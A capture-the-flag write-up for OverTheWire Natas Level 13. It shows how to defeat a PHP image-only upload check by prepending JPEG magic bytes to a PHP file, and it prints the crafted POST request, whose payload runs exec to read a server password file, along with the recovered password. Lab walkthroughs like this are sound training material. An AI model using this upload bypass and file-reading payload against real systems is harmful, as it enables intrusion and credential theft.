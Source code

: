 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 13"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 13 > Level 14

Another file upload.

![natas13-01](/img/otw-natas/natas13-01.png)

```
[...]
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

"For security reasons, we now only accept image files!" Damn!

Only one thing has changed since the last level, the addition of this check. Obviously this is what we have to defeat.

```
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

The [documentation](http://php.net/manual/en/function.exif-imagetype.php) on this says it determines the file type by reading the 'first bytes' of the file. A php file will still execute with garbage outside of the `<?php ?>` tags, so we just need to find what values to prepend to our previous solution.

A [comment](http://php.net/manual/en/function.exif-imagetype.php#113253) on that page says we just need `FF D8` to identify the file as a `jpg`, but it didn't work for me. Looking into it further, I found [this site](http://www.filesignatures.net) which says we need four bytes - `FF D8 FF E0`.

Save the PHP string we used in the previous level to a file and add the special sauce in a hex editor (`hexedit` shown).

![natas13-02](/img/otw-natas/natas13-02.png)

Upload the file and modify the POST request as in the previous level to our own value for `filename`.

```
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="filename"

giantburrito.php
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="uploadedfile"; filename="natas13jpg.php"

����<?php echo exec("cat /etc/natas_webpass/natas14"); ?>
-----------------------------889891975953420225799738043--
```

```
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/ve7evh8ayr.php">upload/ve7evh8ayr.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success. Ignore the four bytes we added and you've got the password.

![natas13-03](/img/otw-natas/natas13-03.png)

Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
